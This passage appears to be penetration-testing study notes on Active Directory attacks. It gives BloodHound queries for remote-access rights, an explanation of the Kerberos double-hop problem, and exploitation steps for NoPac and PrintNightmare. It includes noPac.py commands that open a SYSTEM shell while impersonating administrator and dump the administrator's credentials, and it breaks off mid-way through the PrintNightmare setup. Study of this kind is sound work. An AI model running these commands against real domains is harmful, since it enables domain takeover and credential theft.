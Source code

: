 All of this can also be checked in BloodHound:
```shell
# To check for RDP rights, go to the node info for a machine
# Also go to analysis and run the prebuilt queries regarding RDP

# Cypher query for WinRM
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2

# Check for SQL Admin rights
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```

**Kerberos Double Hop Problem**
This problem occurs when attempting to use Kerberos for more than two hops with `WinRM` and `PowerShell`. This causes issues with lateral movement and accessing file shares. It stems from not have the user's password being cached as part of the login with `WinRM`

Workarounds can be found [here](https://posts.slayerlabs.com/double-hop/).
### Bleeding Edge Vulnerabilities
These are vulnerabilities that were recent in 2021-2022. We should be staying on top of recent attacks and tools.

**`NoPac (SamAccountName Spoofing)`**
Read into it [here](https://techcommunity.microsoft.com/t5/security-compliance-and-identity/sam-name-impersonation/ba-p/3042699). It utilizes two CVEs: [2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278) and [2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287). The former is bypass for SAM, the latter a vulnerability within the `Kerberos Privilege Attribute Certificate (PAC)`. Here's the control flow of the attack:
1. Add a computer to the domain and change the name of the new host to match a DCs `SamAccountName`
2. Request Kerberos tickets causing the service to give us tickets under the DC's name instead of the new name
3. When a TGS is granted, it'll issue the ticket with the closest matching name
4. Now we'll have access, and that service can even contain a SYSTEM shell on a DC.

Read more into the control flow [here](https://www.secureworks.com/blog/nopac-a-tale-of-two-vulnerabilities-that-could-end-in-ransomware). We can use this [tool](https://github.com/Ridter/noPac) to perform this attack.
```shell
# Ensure that we have both impacket and nopac
# Scan for nopac
sudo python3 scanner.py <domain>/<user>:<pass> -dc-ip 172.16.5.5 -use-ldap

# nopac shell
sudo python3 noPac.py <domain>/<user>:<pass> -dc-ip 172.16.5.5  -dc-host <DC Name> -shell --impersonate administrator -use-ldap

# DCSync with nopac
sudo python3 noPac.py <domain>/<user>:<pass> -dc-ip 172.16.5.5  -dc-host <DC Name> --impersonate administrator -use-ldap -dump -just-dc-user <domain>/administrator
```
**`PrintNightmare`**
`PrintNightmare` is the nickname given to two vulnerabilities ([`CVE-2021-34527`](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) and [`CVE-2021-1675`](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675)) found in the [`Print Spooler service`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/7262f540-dd18-46a3-b645-8ea9b59753dc) . It runs on all Windows machines. Here's how we can use the exploit for RCE:
```shell
# Once again ensure that we have impacket installed prior to this
git clone https://github.com/cube0x0/CVE-2021-1675.git

# Enumerate for MS-RPRN
rpcdump.py @<DC IP> | egrep 'MS-RPRN|MS-PAR'

# Generate a payload (any reverse shell will work)
```